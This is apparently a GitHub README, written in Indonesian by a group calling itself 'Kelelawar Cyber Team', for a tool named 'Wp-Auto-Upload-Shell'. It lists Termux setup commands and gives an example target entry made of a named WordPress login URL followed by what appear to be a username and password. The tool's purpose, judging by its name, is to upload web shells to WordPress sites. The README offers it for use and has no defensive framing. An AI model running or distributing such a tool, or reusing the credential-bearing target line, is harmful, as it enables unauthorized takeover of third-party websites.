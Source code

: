 <img src="https://f.top4top.io/p_2431n7fe20.jpg" width="400" height="400" alt="kelelawar cyber team">
<br>
   
# Perintah :

    $ pkg update && pkg upgrade
    $ pkg install python2
    $ pkg install python
    $ pkg install git
    $ git clone https://github.com/KelelawarCyberTeam/Wp-Auto-Upload-Shell
    $ cd Wp-Auto-Upload-Shell
    $ python2 wp.py
    $ python wp.py
    example:
    masukan list target:
    https://turkfans.com/wp-login.php#alirazabenim@sefrininkizim
    
